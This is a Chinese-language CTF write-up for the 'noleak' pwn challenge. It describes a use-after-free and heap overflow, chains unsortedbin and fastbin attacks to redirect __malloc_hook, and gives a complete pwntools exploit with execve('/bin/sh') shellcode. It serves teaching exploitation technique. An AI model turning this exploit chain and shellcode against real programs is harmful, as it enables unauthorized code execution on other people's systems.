 # 标题

> qctf-noleak

## **原理**

利用了 unsortedbin attack 和 fastbin attack。

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

存在 UAF 和 堆溢出漏洞。

删除操作：

![](./pic/1.png)

修改操作：

![](./pic/2.png)


查看保护机制：

![](./pic/3.png)

Full RELRO是我们无法修改GOT表。NX没有开启，或许我们可以通过执行shellcode的方式来获得shell。

- 首先我们通过 unsortbin attack 向0x601040+0x28 + 0x10 也就是 buf[7]中写入main_arena+88 的地址。

```
delete(1)
update(1,p64(0x601040+0x28)*2) 
create(0x80,'G'*0x30)#3  
```

![](./pic/4.png)

- fake chunk

```
delete(0)
update(0,p64(0x601075)) #fake fastbin
create(0x68,'H'*0x10)#4 
create(0x68,'I'*3+p64(0x601070))#5 向buf[9]（0x601088）写入 0x601070


update(9,p64(0x601090)+'\x10') # 用update将buf[6]修改为
0x601090，为后面向bss段写shellcode做准备，同时partial overwrite 修改buf[7]的最低位，
使其变成__malloc_hook的地址
```

![](./pic/5.png)

- 利用update 功能，修改buf[6]，在0x601090的地址上写入shellcode，并使 malloc_hook 指向shellcode

![](./pic/6.png)


- 执行完exp，再malloc一个chunk，就可以 执行shelllcode

![](./pic/7.png)


完整exp：

```
from pwn import *
s = process('./NoLeak')
 
def create(size,pay):
	s.recvuntil('Your choice :')
	s.sendline('1')
	s.recvuntil('Size:')
	s.sendline(str(size))
	s.recvuntil('Data:')
	s.send(pay)
 
def delete(idx):
	s.recvuntil('Your choice :')
	s.sendline('2')
	s.recvuntil('Index')
	s.sendline(str(idx))
def update(idx,pay):
	s.recvuntil('Your choice :')
        s.sendline('3')
        s.recvuntil('Index:')
	s.sendline(str(idx))
	s.recvuntil('Size:')
        s.sendline(str(len(pay)))
	s.recvuntil('Data:')
	s.send(pay)
sc='\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
create(0x68,'A'*0x20)#0
create(0x80,'E'*0x30)#1
create(0x80,'F'*0x30)#2

#利用unsorted bin attack ,向0x601040+0x28 + 0x10的地址写入 main_arena+0x88的地址
delete(1)
update(1,p64(0x601040+0x28)*2) 
create(0x80,'G'*0x30)#3  

delete(0)
update(0,p64(0x601075)) #fake fastbin
create(0x68,'H'*0x10)#4 
create(0x68,'I'*3+p64(0x601070))#5 向0x601088写入 0x601070

update(9,p64(0x601090)+'\x10') # 用编辑功能，将&buf[6]地址上的内容，将buf[6]修改为0x601090，为后面向bss段写shellcode做准备，同时partial overwrite 修改buf[7]的最低位，使其变成__malloc_hook的地址
update(7,p64(0x601090))
update(6,sc)

s.interactive()
```

## **参考阅读**

[Unsorted Bin Attack](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/heap/unsorted_bin_attack/)

[Fastbin Attack](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/heap/fastbin_attack/)

[noleak writeup_1](https://www.jianshu.com/p/e6ea43d35a8b)

[noleak writeup_2](http://blog.leanote.com/post/xp0intjnu@gmail.com/%5BPwn%5D-NoLeak-Cpt.shao)